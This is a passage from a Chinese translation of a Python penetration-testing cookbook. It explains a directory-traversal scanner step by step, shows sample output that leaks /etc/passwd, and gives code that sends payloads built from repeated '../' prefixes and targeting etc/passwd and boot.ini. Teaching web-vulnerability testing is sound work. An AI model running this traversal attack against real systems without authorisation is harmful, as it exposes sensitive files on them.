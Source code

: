 使用此脚本时产生的输出示例如下：

```py
Parameter vulnerable

Attack string: ../../../../../etc/passwd

Get me /etc/passwd! File Contents:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

## 它是如何工作的…

我们导入我们在本书中到目前为止所需的库，就像我们做的其他脚本一样：

```py
url = sys.argv[1]
```

然后，我们以 URL 的形式输入。由于我们使用`requests`库，我们应该确保我们的 URL 与 requests 期望的形式匹配，即`http(s)://url`。如果你搞错了，requests 会提醒你：

```py
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
```

我们建立我们将在每次攻击中发送的有效载荷的字典。每对中的第一个值是我们希望尝试加载的文件，第二个值是肯定会在该文件中的值。第二个值越具体，错误报告就会越少；但是，这可能会增加错误否定的机会。请随意在这里包含你自己的文件：

```py
up = "../"
i = 0
```

我们提供向上目录的快捷方式`../`并将其分配给向上变量，并将我们的循环计数器设置为`0`：

```py
for payload, string in payloads.iteritems():
  while i < 7:
```

`Iteritems`方法允许我们遍历字典并将每个键和值分配给变量。我们将第一个值分配为负载，第二个值分配为字符串。然后我们限制我们的循环，以防失败时无限重复。我将其设置为`7`，尽管这可以设置为任何您喜欢的值。请记住，Web 应用程序的目录结构可能高于`7`的可能性：

```py
req = requests.post(url+(i*up)+payload)
```

我们通过获取我们的根 URL，并根据循环和负载的当前数量附加上级目录的当前数量来构建我们的请求。然后将其发送到一个 post 请求中：

```py
if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```
